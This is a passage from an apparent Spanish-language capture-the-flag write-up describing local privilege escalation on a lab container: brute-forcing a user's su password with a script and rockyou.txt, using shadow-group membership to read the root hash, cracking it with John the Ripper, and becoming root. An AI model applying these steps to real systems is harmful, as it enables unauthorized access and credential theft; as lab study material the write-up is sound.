 Le damos permiso de ejecucion al archivo:
```bash
chmod +x Linux-Su-Force.sh
```

Ahora ejecutamos el ataque de fuerza bruta sobre el usuario:
```bash
./Linux-Su-Force.sh luisillo_o rockyou.txt
```

Tenemos la password:
```bash
Contraseña encontrada para el usuario luisillo_o: 19831983
```

```bash
# Comando para escalar al usuario: ( luisillo )
su luisillo_o # ( 19831983 )
```

###### Usuario `[ luisillo_o ]`:
Ahora explotaremos los privilegios o archivos que tenga este usuario:
```bash
id
uid=1001(luisillo_o) gid=1001(luisillo_o) groups=1001(luisillo_o),42(shadow)
```

Vemos que pertenecemos a un grupo especial: **( shadow )** el cual nos permitiria leer e contenido del archivo **shadow**
Sabiendo que podemos leer esto:
```bash
-rw-r----- 1 root shadow   720 Sep  3  2024 shadow
```

Copiamos su contenido en un nuevo archivo en nuestra maquina de atacante:
```bash
root:$y$j9T$awXWvi2tYABgO5kreZcIi/$obvQc0Amd6lFWbwfElQhZD6vpJN/AEV8/hZMXLYTx07:19969:0:99999:7:::
```

Creamos un archivo: **hash.txt** con el contenido del **hash** para **root** y ahora vamos a **crackearlo**
```bash
john --format=crypt hash.txt
```

Tenemos la contrasena de **root**
```bash
rainbow2
```

Nos logueamos como root:
```bash
su root # ( rainbow2 )
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@d9ae45929eb8:~# whoami
root
```

---